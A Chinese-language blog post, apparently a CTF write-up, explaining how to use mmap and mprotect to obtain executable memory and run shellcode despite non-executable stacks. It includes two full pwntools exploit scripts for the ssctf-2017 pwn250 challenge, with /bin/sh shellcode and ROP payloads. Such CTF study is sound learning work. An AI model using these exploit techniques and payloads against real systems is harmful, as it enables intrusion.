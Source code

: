 ```yaml
---
title: execute shellcode with mmap and mprotect
date: 2017-05-07 23:25:37
categories: pwn
---
```


# 利用mmap和mprotect来任意执行shellcode
此前一直只了解了下原理，没有实际执行过，结果遇到题目后花时间去查它们的详细参数，因此这里记录总结下。

<!-- more -->
> - by hook

## 信息介绍

现在程序基本都是开了对堆栈不可执行选项，但msf一堆优秀的shellcode不能拿来用是件多么痛苦的事情。
这里可以用mmap()或者mprotect函数来构造出我们须要权限的segment。

## 函数介绍
### <1>. mprotect
int mprotect(const void *start, size_t len, int prot);  
mprotect()函数把自start开始的、长度为len的内存区的保护属性修改为prot指定的值。

### <2>. mmap
void* mmap(void* start,size_t length,int prot,int flags,int fd,off_t offset);
mmap()函数把指定或随机分配的地址内存，以prot权限映射到自start开始的，长度为length，而且为PAGE_SIZE单位的地址。

## 利用思路
<1>. 将shellcode写进一段具有可写权限的段里，然后用mprotect将对应的段修改为可执行，再跳到布置好的shellcode里。
<2>. 用mmap获取一段rwx权限的内存，映射到指定地址处，然后将shellcode写入映射好的内容存里，接着跳入布置好的shellcode中。

## 实例
[ssctf-2017 pwn250](https://github.com/gloxec/record/blob/master/ssctf_2017/pwn250)
就拿这这个来练习下mprotect&mmap:

mprotect:

```
#!/usr/bin/python

from pwn import *

shellcode = "\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73"
shellcode += "\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0"
shellcode += "\x0b\xcd\x80"

bssAddr = 0x080ec000
mprotectAddr = 0x0806e070
readAddr = 0x0806d510

p = process('./250')
#p = remote('60.191.205.81', 2017)
context.log_level = 'debug'
p.recvuntil('Size]')
p.sendline('102')
p.recvuntil('Data]')

pppr = 0x080ad715

payload = 'a'*62+p32(mprotectAddr) + p32(pppr) + p32(bssAddr) + p32(0x1000) + p32(7)
payload += p32(readAddr) + p32(bssAddr) + p32(0) + p32(bssAddr) + p32(len(shellcode)+1)
p.send(payload)
p.send(shellcode)
p.recv()

p.interactive()
```

mmap:

```
#!/usr/bin/python

from pwn import *

shellcode = "\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73"
shellcode += "\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0"
shellcode += "\x0b\xcd\x80"

segAddr = 0xbeef0000
mmapAddr = 0x0806DF70 
mainAddr = 0x08048886
readAddr = 0x0806d510

p = process('./250')
#p = remote('60.191.205.81', 2017)
context.log_level = 'debug'
context.terminal = ['tmux', 'splitw', '-h']
p.recvuntil('Size]')
p.sendline('94')
p.recvuntil('Data]')

payload = 'a'*62+p32(mmapAddr) + p32(mainAddr) + p32(segAddr) + p32(1024) + p32(7) + p32(34) + p32(0) + p32(0)
p.send(payload)

p.recvuntil('Size]')
#gdb.attach(p)
p.sendline('82')
p.recvuntil('Data]')
payload2 = 'a'*62+p32(readAddr) + p32(segAddr) + p32(0) + p32(segAddr) + p32(1024)
p.send(payload2)
p.sendline(shellcode)
p.recv()

p.interactive()
```
这里拿mmap后的内存看一下,可以发现被映射成rwx的内存和shellcode的成功执行。
![](/images/execute shellcode with mmap and mprotect/mmap.png)

